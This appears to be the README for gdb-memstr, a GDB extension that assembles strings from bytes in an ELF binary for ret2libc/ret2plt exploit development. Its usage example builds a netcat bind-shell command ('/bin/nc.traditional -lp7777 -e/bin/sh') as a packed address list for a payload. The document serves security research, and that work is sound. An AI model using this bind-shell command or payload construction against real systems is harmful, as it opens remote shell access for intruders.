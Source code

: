 #gdb-memstr
==========

###Description

gdb-memstr is a GDB extension for automating the task of assembling arbitrary ASCII strings out of the bytes that constitute an ELF binary.

This is generally useful during the development of ret2libc/ret2plt attacks when the user-supplied data is not located at a fixed or predictable location, in which case the arguments for the libc function should be generated on-the-fly by chaining calls to functions like memcpy/strcpy/strncpy/sprintf/snprintf/etc.

###Installation

You can either configure GDB to take advantage of the [auto-loading feature](https://www.sourceware.org/gdb/onlinedocs/gdb/Python-Auto_002dloading.html "Python Auto-loading") or you can load it manually every time using the ```source``` command.

```
# gdb
(gdb) python print gdb.PYTHONDIR
/usr/share/gdb/python
# source /path/to/memstr.py 
```


###Usage

```
$ gdb ./vuln
(gdb) break main
Breakpoint 1 at 0x400587
(gdb) run
Starting program: /home/max/Code/testbed/vuln 
(gdb) memstr "/bin/nc.traditional -lp7777 -e/bin/sh" text
STR = [
    struct.pack('<Q', 0x4015d8),	# /
	struct.pack('<Q', 0x4011ce),	# b
	struct.pack('<Q', 0x400b5a),	# i
	struct.pack('<Q', 0x401fee),	# n
	struct.pack('<Q', 0x4015d8),	# /
	struct.pack('<Q', 0x401fee),	# n
	struct.pack('<Q', 0x400635),	# c
	struct.pack('<Q', 0x40067a),	# .
	struct.pack('<Q', 0x4003da),	# t
	struct.pack('<Q', 0x40094b),	# r
	struct.pack('<Q', 0x4011eb),	# a
	struct.pack('<Q', 0x4006f9),	# d
	struct.pack('<Q', 0x400b5a),	# i
	struct.pack('<Q', 0x4003da),	# t
	struct.pack('<Q', 0x400b5a),	# i
	struct.pack('<Q', 0x401077),	# o
	struct.pack('<Q', 0x401fee),	# n
	struct.pack('<Q', 0x4011eb),	# a
	struct.pack('<Q', 0x4008e7),	# l
	struct.pack('<Q', 0x400787),	#  
	struct.pack('<Q', 0x4003f7),	# -
	struct.pack('<Q', 0x4008e7),	# l
	struct.pack('<Q', 0x400597),	# p
	struct.pack('<Q', 0x4003f1),	# 7
	struct.pack('<Q', 0x4003f1),	# 7
	struct.pack('<Q', 0x4003f1),	# 7
	struct.pack('<Q', 0x4003f1),	# 7
	struct.pack('<Q', 0x400787),	#  
	struct.pack('<Q', 0x4003f7),	# -
	struct.pack('<Q', 0x400f37),	# e
	struct.pack('<Q', 0x4015d8),	# /
	struct.pack('<Q', 0x4011ce),	# b
	struct.pack('<Q', 0x400b5a),	# i
	struct.pack('<Q', 0x401fee),	# n
	struct.pack('<Q', 0x4015d8),	# /
	struct.pack('<Q', 0x400519),	# s
	struct.pack('<Q', 0x4007a2),	# h
	struct.pack('<Q', 0x4003b5)	    # \0
]

(gdb) 
```

###Notes

- This extension has not been thoroughly tested, therefore expect issues.
- This extension "supports" x86 and x86-64 architectures. You'll have to tweak yourself the packing format of the resulting list if your architecture varies.


###Thanks

Thanks to [argp]("https://twitter.com/_argp") for his input and spreading the word.
